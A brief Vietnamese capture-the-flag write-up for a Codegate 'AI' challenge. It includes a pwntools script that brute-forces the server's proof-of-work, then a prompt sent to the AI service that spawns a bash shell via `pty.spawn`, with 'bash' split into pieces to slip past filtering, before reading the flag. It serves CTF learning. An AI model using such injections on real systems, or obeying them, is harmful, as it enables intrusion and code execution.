 # Codegate / AI 
![image](https://github.com/anhshidou/nopsctf-2024/assets/81132394/fac98830-7cef-42ab-9805-8db3cce9ab31)

Trước tiên mình thử tải file về và kiểm tra source code của nó

![image](https://github.com/anhshidou/nopsctf-2024/assets/81132394/1bffb79e-dc98-464b-b9f6-0aaad9c961f7)

Tại đây mình có 1 script để bypass sanity check

```
import random 
import string 
import hashlib 
import itertools
import string
from pwn import *
re = remote('13.125.209.34', 5334)
reuslt = re.recvline().decode()
# context.log_level = 'debug'
def generate_strings(length, char_set):
    return [''.join(combo) for combo in itertools.product(char_set, repeat=length)]

char_set = string.ascii_letters + string.digits
length = 4  # Change this to the desired length

# strings = generate_strings(length, char_set)
salt_length = 16
difficulty = 4


def load_balancing():
    # rand_str = ''.join(random.sample(string.ascii_letters + string.digits, salt_length + difficulty))
    # salt = "".join(rand_str[:salt_length])
    # salt = input("enter salt: ")
    salt = reuslt[7:23]
    # correct_str = "".join(rand_str[salt_length:])
    # hash_str = hashlib.sha256(rand_str.encode()).hexdigest()
    # hash_str = input("enter hash_str: ")
    hash_str = reuslt[35:35+64]
    print (f"Result is {reuslt}\nSalt is {salt}\nhash_str is {hash_str}\n")
    strings = generate_strings(length, char_set)
    for rand_string in strings:
        if (hashlib.sha256((salt + rand_string).encode()).hexdigest()  == hash_str):
            print(f"Salt is {salt}\n rand_string is {rand_string}\n hash_str is {hash_str}\n")
            print(f"sha256({salt} + {'X' * difficulty}) == {hash_str}")
            re.sendlineafter(b"Give me X:", rand_string)
            re.interactive()
            re.recvall()
    re.close()
load_balancing()
```

Sau khi mình connect được vào, mình promt như sau
`import pty; a = “ba”+"s"+"h" ;pty.spawn(a)`

![image](https://github.com/anhshidou/nopsctf-2024/assets/81132394/abbab18c-d93a-457b-b51e-d0936903d542)

Còn lại ta `cat flag` là ra

**--END--**
